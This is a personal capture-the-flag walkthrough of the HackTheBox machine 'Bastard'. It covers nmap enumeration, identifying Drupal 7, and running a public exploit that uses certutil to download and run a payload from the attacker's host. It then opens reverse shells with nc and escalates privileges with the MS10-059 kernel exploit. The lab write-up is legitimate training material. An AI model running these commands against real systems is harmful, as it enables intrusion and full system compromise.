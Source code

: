 **Ping**
```
ping 10.10.10.9
```
![[Pasted image 20240615131109.png]]

Nmap default Scan
```
nmap 10.10.10.9 -oN dnmap
```
![[Pasted image 20240615131415.png]]

Nmap Script and Service Scan
```
nmap 10.10.10.9 -sVC -oN snmap
```
![[Pasted image 20240615131548.png]]

Nmap all port Scan
```
 nmap -p- --min-rate 10000 10.10.10.9 -oN anmap
```
![[Pasted image 20240615131512.png]]

On port 80
![[Pasted image 20240615145329.png]]

 Got the version of drupal in source code
 ![[Pasted image 20240615145507.png]]

Also we can see this in CHANGELOG.txt
![[Pasted image 20240615145659.png]]


Will move to Initial Foothold....!

Will search Public exploit for Drupal 7
![[Pasted image 20240615152249.png]]
Got one https://www.exploit-db.com/exploits/41564

Will run the exploit
```
python3 exp.py http://10.10.10.9/ -c 'certutil -urlcache -f http://10.10.14.2/met.exe c:/windows/temp/met.exe'
```
![[Pasted image 20240615152345.png]]

```
python3 exp.py http://10.10.10.9/ -c 'C:/Windows/Temp/met.exe'
```
![[Pasted image 20240615152423.png]]
Will trigger the payload

```
rlwrap nc -nvlp 443
```
![[Pasted image 20240615152520.png]]

Will move to Privilege escalation.....!

Will check Our Privileges
```
whoami /priv
```
![[Pasted image 20240615152856.png]]

Get System info
```
systeminfo
```
![[Pasted image 20240615152804.png]]

Though We have Impersonate Privilege, we can't use printspoofer or godpotato.
So Will go with kernel Exploit

Found exploit in this link:https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe

Will transfer the binary to target Machine and run the exploit
```
exp.exe 10.10.14.2 4444
```
![[Pasted image 20240615153223.png]]

```
rlwrap nc -nvlp 4444
```
![[Pasted image 20240615153145.png]]
Cooool….! We got Elevated. 

Got user.txt in User dimitris's Desktop
![[Pasted image 20240615152633.png]]

Got root.txt in Admin's Desktop
![[Pasted image 20240615153414.png]]


I'm done with Bastard...…:) 